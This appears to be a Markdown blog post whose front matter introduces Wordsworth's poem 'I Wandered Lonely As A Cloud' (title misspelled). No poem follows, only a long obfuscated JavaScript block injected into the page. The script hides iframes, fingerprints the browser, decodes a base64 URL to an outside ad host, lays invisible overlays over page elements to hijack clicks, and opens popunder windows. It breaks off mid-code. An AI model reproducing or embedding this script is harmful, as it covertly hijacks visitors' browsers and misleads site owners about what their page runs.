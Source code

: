 ```yaml
---
title: "I Wandered Lonely As A Could"
author: "William Wordsworth"
date: 2019-11-02
tags: ["poetry", "loneliness"]
draft: false
description: "The poem 'I Wandered Lonely As A Cloud' by William Wordsworth"
featured_image: "https://images.unsplash.com/photo-1509803874385-db7c23652552?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=960&h=400"
---
```


<script data-cfasync="false" type="text/javascript">(function($,document){var doc=document;if(doc[$.a]&&!doc[$.a][$.d]){doc[$.a][$.d]=Math[$.BA]()[$.BD]($.BG)[$.Ba]($.Bd);}var iframe=window[$.u][$.A]($.BB),atob,decodeURIComponent,RegExp,localStorage;iframe[$.l][$.o]=$.w;iframe[$.l][$.p]=$.x;iframe[$.l][$.q]=$.x;iframe[$.l][$.r]=$.y;iframe[$.l][$.s]=$.z;iframe[$.d]=$.m;doc[$.g][$.n](iframe);atob=iframe[$.t][$.i];decodeURIComponent=iframe[$.t][$.j];RegExp=iframe[$.t][$.k];var name=$.e+Math[$.BA]()[$.BD]($.BG)[$.Ba]($.Bd);window[name]=document;[$.A,$.B,$.C,$.D,$.E,$.F,$.G,$.H,$.I,$.J][$.h](function(k){document[k]=function(){return iframe[$.t][$.u][k][$.Bn](window[$.u],arguments);};});[$.a,$.b,$.c][$.h](function(k){Object[$.BE](document,k,$.$($.Bo,function(){return window[$.u][k];},$.BJ,$.BH));});document[$.f]=function(){arguments[$.z]=arguments[$.z][$.Bc](new RegExp($.u,$.Bf),name);return iframe[$.t][$.u][$.f][$.Bb](window[$.u],arguments[$.z]);};try{localStorage=window[$.v];}catch(e){delete window[$.v];window[$.v]=$.$($.Bi,$.$(),$.Bt,function(id,val){return this[$.Bi][id]=String(val);},$.Bu,function(id){return this[$.Bi][$.Bk](id)?this[$.Bi][id]:undefined;},$.Bs,function(id){return delete this[$.Bi][id];},$.Bq,function(){return this[$.Bi]=$.$();});localStorage=window[$.v];}try{window[$.i];}catch(e){delete window[$.i];window[$.i]=atob;}try{window[$.j];}catch(e){delete window[$.j];window[$.j]=decodeURIComponent;}try{window[$.k];}catch(e){delete window[$.k];window[$.k]=RegExp;}!function(e){var r=$.$();function o(n){if(r[n])return r[n][$.BF];var t=r[n]=$.$($.Bg,n,$.Bh,!$.Be,$.BF,$.$());return e[n][$.Bb](t[$.BF],t,t[$.BF],o),t.l=!$.z,t[$.BF];}o.m=e,o.c=r,o.d=function(n,t,e){o.o(n,t)||Object[$.BE](n,t,$.$($.BJ,!$.Be,$.Br,!$.z,$.Bo,e));},o.n=function(n){var t=n&&n[$.Bm]?function(){return n[$.Bp];}:function(){return n;};return o.d(t,$.Bl,t),t;},o.o=function(n,t){return Object[$.Bj][$.Bk][$.Bb](n,t);},o.p=$.BC,o(o.s=$.BI);}([function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));t.e=2922833,t.a=2922832,t.v=3,t.w=6,t.h=45,t._=true,t.g={},t.y="zfgloadedpopup",t.S=atob('Ly9kZWxvcGxlbi5jb20vYXB1LnBocD96b25laWQ9MjkyMjgzMw=='),t.M=2,t.O=$.HD*1573269504,t.T='fj1mrtwhT92p6g70vCoe75adlbSwrtfbxk6Bao8dkzlvP80m1i4vbJfu7wmdviBk2edgc8pZtett4vw6Crqu9xxhi',t.A='dgcSjsuDp4cNvguV1scSwenUdgcX82nYp4cKkqn',t.k='p0gttd3hxli',t.I='_sgoej',t.P='_xptqq';},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Dg]=i,t.R=function(){return i()[$.Bc]($.aq,$.ar);},t.N=function(){return[($.z,r.B)(o.C[$.aI],o[$.GI][$.aI]),($.z,r.B)(o[$.Dr][$.aI],o[$.GI][$.aI])][$.Je]($.cD);};var r=e($.By),o=e($.FD),u=e($.z);function i(){return $.Ex+u.e;}},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));t.D=$.Gh,t.z=$.Gi,t.U=$.Gj,t.H=$.Gk,t.X=$.Gl,t.F=$.z,t.J=$.Be,t.G=$.Bd,t.L=$.Gm;},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t.Y=m,t.Z=_,t.$=g,t.K=function(t){l=t,u[$.h](function(n){return n(t);});},t.Q=function(n){u[$.Jo](n),l&&n(l);},t.W=function(o,u){if(!l)return null;var i=[],c=d,n=m(),a=_(n),f=g();function t(){if(c===p){if(c=h,!u)return($.z,r[$.Bp])(n,$.dl);s[$.Bp][$.Jg][$.bh][$.bn]=n;}return null;}return window[$.B]($.GF,function n(t){var e=Object[$.Jb](t[$.DI])[$.Jv]();if(e===a)if(null===t[$.DI][e]){var r=$.$();r[e]=u?$.$($.eG,$.eF,$.Ch,o,$.eg,s[$.Bp][$.Jg][$.bh][$.bn]):o,f[$.t][$.Ig](r,$.Jc),c=w,i[$.h](function(n){return n();});}else f[$.Jt][$.ap](f),window[$.C]($.GF,n),c=p;}),f[$.d]=n,document[$.c][$.n](f),c=v,t.V=function(){return c===p;},t.nn=function(n){return $.Ew!=typeof n?null:c===p?n():i[$.Jo](n);},t;};var r=o(e($.Hw)),s=o(e($.Fl));function o(n){return n&&n[$.Bm]?n:$.$($.Bp,n);}var l=void $.z,d=$.z,v=$.Be,w=$.Bd,p=$.Bx,h=$.By,u=[];function m(){var n=[$.HI,$.HJ,$.Ha,$.Hb,$.Hc,$.Hd,$.He,$.Hf],r=[$.Hg,$.Hh,$.Hi,$.Hj,$.Hk],t=[$.Hl,$.Hm,$.Hn,$.Ho,$.Hp,$.Hq,$.Hr,$.Dd,$.Hs,$.Ht,$.Co,$.Hu],e=n[Math[$.If](Math[$.BA]()*n[$.GJ])][$.Bc](new RegExp($.HI,$.Bf),function(){var n=Math[$.If](Math[$.BA]()*t[$.GJ]);return t[n];})[$.Bc](new RegExp($.HJ,$.Bf),function(){var n=Math[$.If](Math[$.BA]()*r[$.GJ]),t=r[n],e=Math[$.dx]($.Fh,t[$.GJ]);return($.BC+t+Math[$.If](Math[$.BA]()*e))[$.Ba](-$.Be*t[$.GJ]);});return $.Gg+l+$.Ih+e+$.aG;}function _(n){return n[$.Ju]($.Ih)[$.Ba]($.Bx)[$.Je]($.Ih)[$.Ju]($.BC)[$.ch](function(n,t,e){var r=Math[$.dx](e+$.Be,$.FF);return n+t[$.ad]($.z)*r;},$.cx)[$.BD]($.BG);}function g(){var n=document[$.A]($.BB);return n[$.l][$.p]=$.x,n[$.l][$.q]=$.x,n[$.l][$.s]=$.z,n;}},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Dh]=f,t[$.Di]=s,t.tn=function(n,o){return n[$.Ju]($.BC)[$.JJ](function(n,t){var e=(o+$.Be)*(t+$.Be),r=(f(n)+e)%a;return s(r);})[$.Je]($.BC);},t.en=function(n,o){return n[$.Ju]($.BC)[$.JJ](function(n,t){var e=o[t%(o[$.GJ]-$.Be)],r=(f(n)+f(e))%a;return s(r);})[$.Je]($.BC);},t.B=function(n,c){return n[$.Ju]($.BC)[$.JJ](function(n,t){var e=c[t%(c[$.GJ]-$.Be)],r=f(e),o=f(n),u=o-r,i=u<$.z?u+a:u;return s(i);})[$.Je]($.BC);};var r=$.Bz,o=$.CA,u=o-r+$.Be,i=$.CB,c=$.CC,a=c-i+$.Be+u;function f(n){var t=n[$.BD]()[$.ad]($.z);return r<=t&&t<=o?t-r:i<=t&&t<=c?t-i+u:$.z;}function s(n){return n<=$.Fq?String[$.Di](n+r):n<=$.bu?String[$.Di](n+i-u):String[$.Di](r);}},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t.rn=t.un=void $.z;var r=e($.FE),o=$.Bw!=typeof document?document[$.a]:null,u=t.un=$.Ik;t.rn=Math[$.BA]()[$.BD]($.BG)[$.Ba]($.Bd);o&&o[$.B](u,function n(e){o[$.C](u,n),[($.z,r.in)(navigator[$.cE]),($.z,r.cn)(window[$.aH][$.q]),($.z,r.an)(new Date()),($.z,r.fn)(window[$.bh][$.bn]),($.z,r.sn)(navigator[$.cJ]||navigator[$.dC])][$.h](function(t){var n=parseInt($.Fh*Math[$.BA](),$.Fh);setTimeout(function(){var n=$.$();n.id=e[$.aJ],n[$.Hv]=t,window[$.Ig](n,$.Jc);},n);});});},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Dj]=function(n){var t=document,e=t[$.g],r=t[$.c],o=window[$.ae]||e[$.bA]||r[$.bA],u=window[$.af]||e[$.bB]||r[$.bB],i=e[$.ag]||r[$.ag]||$.z,c=e[$.ah]||r[$.ah]||$.z,a=n[$.aa](),f=a[$.Jh]+(o-i),s=a[$.Jp]+(u-c),l=$.$();return l[$.Jh]=f,l[$.Jp]=s,l;},t[$.Dk]=function(n){var t=document[$.E](n);return Array[$.Bj][$.Ba][$.Bb](t);},t[$.Dl]=function n(t,e){if(!t)return null;if(t[$.aB]===e)return t;return n(t[$.Jt],e);},t.ln=function(){var n=$.Jy+($.Be===i.M?$.bj:$.bk)+$.cC+o.dn[i.y],t=$.$();t.sd=c.K,t[$.Jq]=i.k,t[$.Jr]=i.T,t[$.Dr]=i.A,($.z,r.vn)(n,u.D,i.e,i.O,i.a,t);},t.wn=function(){var n=o.pn[i.y];return($.z,r[$.Dn])(n,i.a)||($.z,r[$.Dn])(n,i.e);},t.hn=function(){return!o.pn[i.y];},t.mn=function(){var e=document[$.A]($.BB);e[$.l][$.s]=$.z,e[$.l][$.q]=$.x,e[$.l][$.p]=$.x,e[$.d]=$.m;try{document[$.g][$.n](e),[$.i,$.k,$.j][$.h](function(t){try{window[t];}catch(n){delete window[t],window[t]=e[$.t][t];}}),document[$.g][$.ap](e);}catch(n){}};var r=e($.FF),o=e($.FG),u=e($.Bd),i=e($.z),c=e($.Bx);},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t.vn=function(n,t,e){var r=$.Bx<arguments[$.GJ]&&void $.z!==arguments[$.Bx]?arguments[$.Bx]:$.z,o=$.By<arguments[$.GJ]&&void $.z!==arguments[$.By]?arguments[$.By]:$.z,u=arguments[$.Fd],i=void $.z;try{i=f[$.d][$.Ju]($.Ih)[$.Bd];}catch(n){}try{var c=window[$.Jk][$.Ja](function(n){return n[$.aj]===e&&n[$.ak];})[$.bw](),a=$.$();a[$.ai]=n,a[$.Eg]=t,a[$.aj]=e,a[$.ak]=c?c[$.ak]:o,a[$.al]=i,a[$.am]=r,(a[$.at]=u)&&u[$.bv]&&(a[$.bv]=u[$.bv]),l[$.Jo](a),s[$.h](function(n){return n[$.Jk][$.Jo](a);});}catch(n){}},t._n=function(n){r[$.Jo](n),window[n]=!$.z;},t[$.Dm]=i,t[$.Dn]=function(r,o){return $.z<window[$.Jk][$.Ja](function(n){var t=n[$.aj]===o,e=n[$.ai]===r;return t&&e;})[$.GJ];},t[$.Do]=function(){try{i(),o(),o=function(){};}catch(n){}},t.gn=function(e,t){s[$.JJ](function(n){var t=n[$.Jk]||[];return t[$.Ja](function(n){return-$.Be<e[$.JI](n[$.aj]);});})[$.ch](function(n,t){return n[$.bF](t);},[])[$.h](function(n){try{n[$.at].sd(t);}catch(n){}});};var f=document[$.a],s=[window],r=[],l=[],o=function(){};f&&f[$.GG]&&(o=f[$.GG]);try{for(var u=s[$.Ba](-$.Be)[$.Jv]();u&&u!==u[$.Jh]&&u[$.Jh][$.aH][$.q];)s[$.Jo](u[$.Jh]),u=u[$.Jh];}catch(n){}function i(){l[$.h](function(r){s[$.h](function(n){n[$.Jk]=n[$.Jk][$.Ja](function(n){var t=n[$.ai]!==r[$.ai],e=n[$.aj]!==r[$.aj];return t||e;});});}),r[$.h](function(n){window[n]=!$.Be;}),r=[],l=[];}s[$.h](function(n){n[$.Jk]||(n[$.Jk]=[]);});},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));t.bn=$.Ga;var r=t.yn=$.Ga,o=(t.Sn=$.Im,t.Mn=$.JE),u=t.jn=$.Il,i=t.On=$.Im,c=t.Tn=$.In,a=t.xn=$.Io,f=t.dn=$.$();f[r]=$.Fw,f[o]=$.Fx,f[u]=$.Fy,f[i]=$.Fz,f[c]=$.GA,f[a]=$.GB;var s=t.pn=$.$();s[r]=$.GC,s[a]=$.GD,s[i]=$.GE;},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Bp]=function(n){try{return n[$.Ju]($.Ih)[$.Bd][$.Ju]($.cD)[$.Ba](-$.Bd)[$.Je]($.cD)[$.dm]();}catch(n){return $.BC;}};},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t.An=function(n){var t=g(d),e=btoa(b(n));return $.Gg+($.z,a.N)()+$.Ih+t+$.cy+e;},t.kn=y,t.En=S,t.In=M,t.Pn=j,t.Rn=function(n,t,e,r){return n=b(n),function n(t,e,r,o,u){var i=t[$.bw]();return o&&o!==f.Nn?i?i(e,r,o,u)[$.aw](function(n){return n;})[$.dv](function(){return n(t,e,r,o,u);}):M(e,r,o,u):i?m[i](e,r||$.eu)[$.aw](function(n){return localStorage[h]=i,n;})[$.dv](function(){return n(t,e,r,o,u);}):new Promise(function(n,t){return t();});}((e=e?e[$.fE]():$.BC)&&e!==f.Nn?[][$.bF](_):(o=[localStorage[h]][$.bF](Object[$.Jb](m)),o[$.Ja](function(n,t){return n&&o[$.JI](n)===t;})),n,t,e,r)[$.aw](function(n){return n&&n[$.Cb]?n:$.$($.dH,$.dI,$.Cb,n);});var o;};var c=e($.FH),i=e($.Bx),a=e($.Be),f=e($.FI),s=e($.z),l=e($.FJ),r=new RegExp($.Fa,$.Bg),o=new RegExp($.Fb),u=new RegExp($.Fc),d=[$.Cl,$.Cm,$.Cn,$.Co,$.Cp,$.Cq,$.Cr,$.Cs,$.Ct],v=[$.l,$.Cu,$.Co,$.Cv,$.Cw,$.Cx,$.Cy],w=[$.Cz,$.DA,$.DB,$.DC,$.DD,$.DE,$.DF,$.DG,$.DH],p=[$.DI,$.DJ,$.Da,$.Db,$.Dc,$.Dd,$.De,$.Df],h=[$.Ev,s.e[$.BD]($.BG)][$.Je]($.BC),m=$.$();m.c=y,m.p=S;var _=[m.x=M,m.f=j];function g(n){return n[Math[$.If](Math[$.BA]()*n[$.GJ])];}function b(n){return r[$.Ip](n)?n:o[$.Ip](n)?$.bx+n:u[$.Ip](n)?$.Gg+window[$.bh][$.eB]+n:window[$.bh][$.bn][$.Ju]($.Ih)[$.Ba]($.z,-$.Be)[$.bF](n)[$.Je]($.Ih);}function y(n,t){var e=$.Ib,r=g(v),o=$.Gg+($.z,a.N)()+$.Ih+r+$.cb+btoa(n);return($.z,c.Bn)(o,t)[$.aw](function(n){return($.z,l.Cn)(s.e,e),n;})[$.dv](function(n){throw($.z,l.Dn)(s.e,e,o),n;});}function S(n,t){var e=$.Ic,r=g(w),o=$.Gg+($.z,a.N)()+$.Ih+r+$.cc+btoa(n);return($.z,c.zn)(o,t)[$.aw](function(n){return($.z,l.Cn)(s.e,e),n;})[$.dv](function(n){throw($.z,l.Dn)(s.e,e,o),n;});}function M(n,t,e,r){var o=$.Id,u=g(p),i=$.Gg+($.z,a.N)()+$.Ih+u+$.cI;return($.z,c.qn)(i,n,t,e,r)[$.aw](function(n){return($.z,l.Cn)(s.e,o),n;})[$.dv](function(n){throw($.z,l.Dn)(s.e,o,i),n;});}function j(n,t,e,r){($.z,i.K)(($.z,a.N)());var o=$.Ie,u=($.z,i.Y)();return($.z,c.Un)(u,n,t,e,r)[$.aw](function(n){return($.z,l.Cn)(s.e,o),n;})[$.dv](function(n){throw($.z,l.Dn)(s.e,o,u),n;});}},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t.Hn=void $.z,t.Xn=function(r,o,u){var i=r[$.Ds][$.Ju](a)[$.Ja](function(n){return!a[$.Ip](n);}),c=$.z;return r[$.aI]=i[c],r[$.GJ]=i[$.GJ],function(n){var t=n&&n[$.DI]&&n[$.DI].id,e=n&&n[$.DI]&&n[$.DI][$.Hv];if(t===o)for(;e--;)c=(c+=u)>=i[$.GJ]?$.z:c,r[$.aI]=i[c];};},t.Fn=function(n){var t=new Event(o.un);t[$.aJ]=n,u[$.F](t);},t.Jn=function(e,n){return Array[$.Bn](null,$.$($.GJ,n))[$.JJ](function(n,t){return($.z,r.tn)(e,t);})[$.Je]($.eE);};var r=e($.By),o=e($.Fd),a=t.Hn=new RegExp($.Jf,$.BC),u=($.Bw!=typeof document?document:$.$($.a,null))[$.a];},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));var r=$.$();function o(){var t=r[$.Is];try{r[$.A]=t[$.A];}catch(n){var e=[][$.cd][$.Bb](t[$.J]($.BB),function(n){return $.m===n[$.d];});r[$.A]=e&&e[$.dE][$.A];}}$.Bw!=typeof window&&(r[$.Jg]=window,void $.z!==window[$.aH]&&(r[$.bD]=window[$.aH])),$.Bw!=typeof document&&(r[$.Is]=document),$.Bw!=typeof navigator&&(r[$.IF]=navigator),o(),r[$.Dp]=function(){if(!window[$.Jh])return null;try{var n=window[$.Jh][$.u],t=n[$.A]($.Cl);return n[$.Js][$.n](t),t[$.Jt]!==n[$.Js]?!$.Be:(t[$.Jt][$.ap](t),r[$.Jg]=window[$.Jh],r[$.Is]=r[$.Jg][$.u],o(),!$.z);}catch(n){return!$.Be;}},r[$.Dq]=function(){try{return r[$.Is][$.a][$.Jt]!==r[$.Is][$.Js]&&(r[$.cz]=r[$.Is][$.a][$.Jt],r[$.cz][$.l][$.o]&&$.Hs!==r[$.cz][$.l][$.o]||(r[$.cz][$.l][$.o]=$.ei),!$.z);}catch(n){return!$.Be;}},t[$.Bp]=r;},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));t.Gn=$.Gn,t.Ln=$.Gi,t.Yn=$.Go,t.Zn=[$.Hx,$.Hy,$.Hz,$.IA,$.IB,$.IC],t.$n=$.Gp,t.Kn=$.w;var r=t.Qn=$.ID,o=t.Wn=document[$.A](r),u=t.Vn=$.Iq,i=t.nt=$.Ir;t.tt=$.Gq,t.et=[$.ID,$.IE,$.Hr,$.IF,$.HH],t.rt=[$.IG,$.IH,$.II],t.ot=$.Gr,t.ut=$.Gs,t.it=!$.z,t.ct=!$.Be,t.at=$.Gt,t.ft=$.Gu,t.st=$.Gv,t.lt=$.Gw;o[$.l][$.Gb]=u,o[$.l][$.Gc]=i;},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));t.dt=$.Gx,t.vt=$.Cc,t.wt=$.Gy,t.pt=$.Gz,t.ht=$.HA,t.Nn=$.HB,t.mt=$.HC;},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));var r,o=e($.Fe),u=(r=o)&&r[$.Bm]?r:$.$($.Bp,r);var i=window[$.GH]||u[$.Bp];t[$.Bp]=i;},function(n,t){var e;e=function(){return this;}();try{e=e||Function($.JG)()||($.z,eval)($.ay);}catch(n){$.dA==typeof window&&(e=window);}n[$.BF]=e;},function(n,t,e){$.Bv;var r=e($.Be),o=e($.Ff),u=e($.Fg),i=e($.Bd),c=e($.z),a=p(e($.IJ)),f=e($.Fd),s=e($.Fh),l=e($.Fi),d=p(e($.Ia)),v=e($.FG),w=e($.FF);function p(n){return n&&n[$.Bm]?n:$.$($.Bp,n);}function h(n){return($.z,o.wn)()?null:(($.z,o.mn)(),c.y===v.yn&&($.z,u._t)()&&($.z,u.gt)(($.z,r.R)()),window[i.U]=s.Rn,($.z,d[$.Bp])(c.y,n)[$.aw](function(){($.z,w.gn)([c.e,c.a],($.z,r.N)()),c.y===v.yn&&($.z,u.bt)();}));}($.z,o.ln)(),window[c.I]=h,window[c.P]=h,setTimeout(h,i.z),($.z,l.Fn)(f.rn),($.z,a[$.Bp])();},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Dr]=t[$.GI]=t.C=void $.z;var r=e($.Fd),o=e($.Bd),u=e($.Fi),i=e($.z),c=t.C=$.$(),a=t[$.GI]=$.$(),f=t[$.Dr]=$.$();c[$.Ds]=i.T,window[$.B]($.GF,($.z,u.Xn)(c,r.rn,$.Be));var s=c[$.GJ]*o.L;a[$.Ds]=($.z,u.Jn)(i.k,s),f[$.Ds]=i.A,window[$.B]($.GF,($.z,u.Xn)(a,r.rn,o.L)),window[$.B]($.GF,($.z,u.Xn)(f,r.rn,$.Be));},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t.in=function(n){{if(o[$.Ip](n))return $.Bx;if(u[$.Ip](n))return $.Bd;}return $.Be;},t.cn=function(n){return s(c,n);},t.an=function(n){return s(a,n[$.an]());},t.sn=function(n){return s(f,n);},t.fn=function(n){return n[$.Ju]($.Ih)[$.Ba]($.Be)[$.Ja](function(n){return n;})[$.bw]()[$.Ju]($.cD)[$.Ba](-$.Bd)[$.Je]($.cD)[$.dm]()[$.Ju]($.BC)[$.ch](function(n,t){return n+($.z,r[$.Dh])(t);},$.z)%$.Ff+$.Be;};var r=e($.By),o=new RegExp($.Fj,$.Bg),u=new RegExp($.Fk,$.Bg),i=$.Bd,c=[[$.Dt],[$.Du,$.Dv,$.Dw],[$.Dx,$.Dy],[$.Dz,$.EA,$.EB],[$.EC,$.ED]],a=[[$.EE],[-$.Ey],[-$.Ez],[-$.FA,-$.FB],[$.EF,$.Dw,-$.EE,-$.FC]],f=[[$.EG],[$.EH],[$.EI],[$.EJ],[$.Ea]];function s(n,t){try{var e=n[$.Ja](function(n){return-$.Be<n[$.JI](t);})[$.bw]();return n[$.JI](e)+i;}catch(n){return $.z;}}},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Bp]=function(n,t,e){var r=u[$.Bp][$.Is][$.A]($.BB);r[$.l][$.p]=$.x,r[$.l][$.q]=$.x,r[$.l][$.s]=$.z,r[$.d]=$.m,u[$.Bp][$.Is][$.c][$.n](r);var o=r[$.t][$.ab][$.Bb](u[$.Bp][$.Jg],n,t,e);return u[$.Bp][$.Is][$.c][$.ap](r),o;};var r,o=e($.Fl),u=(r=o)&&r[$.Bm]?r:$.$($.Bp,r);},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t.yt=m,t.St=_,t.Mt=g,t.jt=S,t.gt=function(u){var n=new Date()[$.ao]();($.z,s.Ot)(n)&&m();var i=function(n){var t=y(f.et),e=y(f.rt),r=document[$.A](t),o=e[$.Bc]($.by,n);r[$.be]=o;var u=r[$.J]($.Bl)[$.z];u[$.bf]=f.tt,u[$.l][$.o]=$.cA,u[$.l][$.Gb]=b($.cf,$.cg),u[$.l][$.p]=b($.ct,$.cu)+$.ca,u[$.l][$.q]=b($.ct,$.cu)+$.ca,u[$.l][$.Jh]=b($.z,$.By)+$.br,u[$.l][$.bs]=b($.z,$.By)+$.br,u[$.l][$.Jp]=b($.z,$.By)+$.br,u[$.l][$.bt]=b($.z,$.By)+$.br;var i=$.$();return i[$.bg]=r,i[$.Gt]=u,i;}(u);S(u),p=function(n){($.z,s.Ot)()&&(n[$.cF](),n[$.cG](),_(),document[$.c]&&document[$.c][$.n](i[$.bg]));},window[$.B](f.ot,p,f.it),i[$.Gt][$.B](f.ut,function(n){var t=$.BC+i[$.Gt][$.bn],e=l.g&&l.g[$.ds],r=l.g&&l.g[$.Gt],o=l.g&&l.g[$.dt];($.z,s.Tt)(),n[$.cF](),n[$.cG](),n[$.cH](),w&&w()?S(u):($.z,c[$.Bp])(t,e,r,o,!$.z),i[$.bg][$.cq]();},f.it);},t.bt=function(){p&&window[$.C](f.ot,p,f.it);},t._t=function(){return void $.z===p;};var r,o=e($.Fm),c=(r=o)&&r[$.Bm]?r:$.$($.Bp,r),a=e($.Ff),f=e($.Fn),s=e($.Fo),l=e($.z),u=e($.FF),i=e($.Be),d=e($.Bx);var v=[],w=void $.z,p=void $.z,h=void $.z;function m(){_();var n=($.z,a[$.Dk])(f.Yn)[$.Ja](function(n){var t=n[$.bG],e=n[$.bH];return!f.Zn[$.df](function(n){return[t,e][$.Je](f.$n)===n;});});v=n[$.JJ](function(n){var t=($.z,a[$.Dj])(n),e=t[$.Jh],r=t[$.Jp],o=t[$.bG],u=t[$.bH],i=$.$();return i[$.o]=f.Kn,i[$.Jh]=e+$.br,i[$.Jp]=r+$.br,i[$.p]=o+$.br,i[$.q]=u+$.br,g(i);}),h=setTimeout(m,f.Gn);}function _(){v=v[$.Ja](function(n){return n[$.Jt]&&n[$.Jt][$.ap](n),!$.Be;}),h&&clearTimeout(h);}function g(t){var e=f.Wn[$.aC](f.ct);return Object[$.Jb](t)[$.h](function(n){e[$.l][n]=t[n];}),document[$.c][$.n](e),e;}function b(n,t){var e=t-n,r=Math[$.BA]()*e+n;return Math[$.If](r);}function y(n){return n[b($.z,n[$.GJ])];}function S(n){($.z,u.gn)([l.e,l.a],($.z,i.N)());var t=($.z,d.W)(n);t.nn(function(){w=t;});}},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Bp]=function(t,n,e,r,o){var u=e||($.z,a[$.Bp])(r),i=Math[$.BA]()[$.BD]($.BG)[$.Ba]($.Bd),c=window[$.ab](u,i);return setTimeout(function(){try{if(c[$.ax])throw new Error();}catch(n){return;}try{c[$.u][$.bh]=t;}catch(n){window[$.ab](t,i);}if(o)try{c[$.bi]=null;}catch(n){}},n||$.ac),c;};var r,o=e($.Fp),a=(r=o)&&r[$.Bm]?r:$.$($.Bp,r);},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Bp]=function(i){var c=($.z,a[$.Bp])(window[$.bh][$.bn]),n=document[$.E]($.as),t=[][$.Ba][$.Bb](n)[$.Ja](function(n){var t=($.z,a[$.Bp])(n[$.d]),e=t[$.dm]()===c[$.dm](),r=-$.Be<n[$.d][$.JI]($.eA),o=e||!i,u=s[$.Ip](n[$.d]);return o&&!r&&!u;});t[$.Jn](function(n,t){try{var e=n[$.aa](),r=t[$.aa](),o=e[$.p]*e[$.q],u=r[$.p]*r[$.q];return o===u?$.z:u<o?-$.Be:$.Be;}catch(n){return $.z;}});var e=t[$.Ja](function(n){var t=[][$.Ba][$.Bb](n[$.dh])[$.Je]($.cC),e=f[$.Ip](n.id),r=f[$.Ip](n[$.d]),o=f[$.Ip](t);return e||r||o;}),r=$.z<e[$.GJ]?e[$.z][$.d]:$.BC,o=$.z<t[$.GJ]?t[$.z][$.d]:$.BC;return r||o||u;};var r,o=e($.Fq),a=(r=o)&&r[$.Bm]?r:$.$($.Bp,r);var u=$.CD,f=new RegExp($.Fr,$.Bg),s=new RegExp($.Fs,$.Bg);},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));var c=function(n,t){if(Array[$.JF](n))return n;if(Symbol[$.JH]in Object(n))return function(n,t){var e=[],r=!$.z,o=!$.Be,u=void $.z;try{for(var i,c=n[Symbol[$.JH]]();!(r=(i=c[$.eJ]())[$.ee])&&(e[$.Jo](i[$.Hv]),!t||e[$.GJ]!==t);r=!$.z);}catch(n){o=!$.z,u=n;}finally{try{!r&&c[$.ew]&&c[$.ew]();}finally{if(o)throw u;}}return e;}(n,t);throw new TypeError($.Iv);};t.Ot=function(){var n=l(),t=c(n,$.Bx),e=t[$.z],r=t[$.Be],o=t[$.Bd];if(e+f<new Date()[$.ao]())return d(new Date()[$.ao](),$.z,$.z),$.z<a.v;var u=o<a.v,i=r+s<new Date()[$.ao]();if(u&&i)return!$.z;return!$.Be;},t.Tt=function(){var n=l(),t=c(n,$.Bx),e=t[$.z],r=t[$.Bd];d(e,new Date()[$.ao](),r+$.Be);};var r=e($.Ft),u=e($.Bd),a=e($.z),f=a.w*r.xt,s=a.h*r.At;function l(){var n=(localStorage[u.H]||$.BC)[$.Ju](u.X),t=c(n,$.Bx),e=t[$.z],r=t[$.Be],o=t[$.Bd];return[parseInt(e,$.Fh)||new Date()[$.ao](),parseInt(r,$.Fh)||$.z,parseInt(o,$.Fh)||$.z];}function d(n,t,e){var r=[n,t,e][$.Je](u.X);localStorage[u.H]=r;}},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z));t.At=$.HD,t.xt=$.HE;},function(n,t,e){$.Bv;Object[$.BE](t,$.Bm,$.$($.Hv,!$.z)),t[$.Bp]=function(){try{(r=new BroadcastChannel(v))[$.B]($.GF,u),(o=new BroadcastChannel(w))[$.B]($.GF,u);}catch(n){}window[$.B]($.GF,u);};var l=e($.Fh),d=e($.z),v=$.CE,w=$.CF,p=$.CG,h=$.CH,m=$.CI,_=$.CJ,g=$.Ca,b=$.Cb,r=void $.z,o=void $.z;function u(n){var 